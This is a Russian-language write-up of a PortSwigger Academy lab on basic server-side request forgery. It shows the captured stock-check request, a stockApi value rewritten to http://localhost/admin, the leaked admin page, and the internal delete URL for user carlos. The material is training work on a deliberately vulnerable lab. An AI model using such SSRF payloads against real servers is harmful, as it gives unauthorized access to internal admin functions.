 ```yaml
---
title: "Basic SSRF against the local server"
date: 2025-08-21
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/ssrf-apprentice/ssrf/lab-basic-ssrf-against-localhost"
classes: wide
---
```


Эта лаба содержит уязвимость **SSRF** (Server-side request forgery).

Нужно получить доступ к интерфейсу админа `http://localhost/admin` и удалить пользователя `carlos`.

```
https://0a0400cb04d88ca581104ddf00b90037.web-security-academy.net/
```

## Solution

Следуя из задачи, нам нужно найти место на сайте, где используется обращение по `HTTP` на сервер.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_the_local_server/1.png){: height="200" .align-center}

При нажатии на кнопку `Check stock` отправляется `HTTP`-запрос на внешний ресурс, и результат подставляется на место вызова.

```http
POST /product/stock HTTP/2

Host: 0a0400cb04d88ca581104ddf00b90037.web-security-academy.net
Cookie: session=EqA7ic9vbBVvFyCUEHLcOxMY8ACPeOyI
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0400cb04d88ca581104ddf00b90037.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a0400cb04d88ca581104ddf00b90037.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D3
```

Заменим `stockApi` на `http://localhost/admin`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_the_local_server/2.png){: height="200" .align-center}

Мы получили страницу админ панели. Теперь нам нужно узнать, с помощью какого запроса происходит удаление пользователя.

```html
</header>
<section>
	<h1>Users</h1>
	<div>
		<span>wiener - </span>
        <a href="/admin/delete?username=wiener">Delete</a>
	</div>
    <div>
        <span>carlos - </span>
		<a href="/admin/delete?username=carlos">Delete</a>
	</div>
</section>
```

Из кода страницы понятно, что для удаления пользователя `carlos` нам нужно отправить следующий `HTTP`-запрос: `http://localhost/admin/delete?username=carlos`. Отправим запрос и проверим результат.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_the_local_server/3.png){: height="200" .align-center}
